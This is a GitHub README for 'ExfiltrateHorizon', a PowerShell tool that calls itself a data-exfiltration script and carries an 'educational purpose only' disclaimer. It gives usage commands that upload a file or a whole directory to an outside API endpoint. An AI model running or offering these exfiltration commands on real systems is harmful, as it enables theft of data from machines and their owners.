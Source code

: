 ```
███████╗██╗  ██╗███████╗██╗██╗  ████████╗██████╗  █████╗ ████████╗███████╗██╗  ██╗ ██████╗ ██████╗ ██╗███████╗ ██████╗ ███╗   ██╗
██╔════╝╚██╗██╔╝██╔════╝██║██║  ╚══██╔══╝██╔══██╗██╔══██╗╚══██╔══╝██╔════╝██║  ██║██╔═══██╗██╔══██╗██║╚══███╔╝██╔═══██╗████╗  ██║
█████╗   ╚███╔╝ █████╗  ██║██║     ██║   ██████╔╝███████║   ██║   █████╗  ███████║██║   ██║██████╔╝██║  ███╔╝ ██║   ██║██╔██╗ ██║
██╔══╝   ██╔██╗ ██╔══╝  ██║██║     ██║   ██╔══██╗██╔══██║   ██║   ██╔══╝  ██╔══██║██║   ██║██╔══██╗██║ ███╔╝  ██║   ██║██║╚██╗██║
███████╗██╔╝ ██╗██║     ██║███████╗██║   ██║  ██║██║  ██║   ██║   ███████╗██║  ██║╚██████╔╝██║  ██║██║███████╗╚██████╔╝██║ ╚████║
╚══════╝╚═╝  ╚═╝╚═╝     ╚═╝╚══════╝╚═╝   ╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝   ╚══════╝╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚═╝╚══════╝ ╚═════╝ ╚═╝  ╚═══╝
```

-------------------------------------------------------------------

**THIS SCRIPT IS DESIGNED FOR EDUCATIONAL PURPOSE ONLY! DO NOT USE THIS SCRIPT FOR ILLEGAL PURPOSES!**

A lightweight PowerShell script used for data exfiltration to the HorizonBackbone

## Roadmap
- [x] Upload file
- [x] Upload directory
- [ ] Single function usage


## How to use

Load the file `ExfiltrateHorizon.ps1` in a PowerShell session and use the function with the following syntax:

### Single File

```powershell
Upload-File -FilePath "C:\path\to\file.txt" -ApiEndpoint "http://example.com/api/upload"
```

### Directory

```powershell
Upload-Directory -DirectoryPath "C:\path\to\directory" -ApiEndpoint "http://example.com/api/upload"
```

Both the `-DirectoryPath` and the `-ApiEndpoint` parameter are mandatory.

## Images

![image](https://github.com/maxbirnbacher/ExfiltrateHorizon/assets/66524685/f33919ef-cb34-4107-aa73-47ef32be7eef)


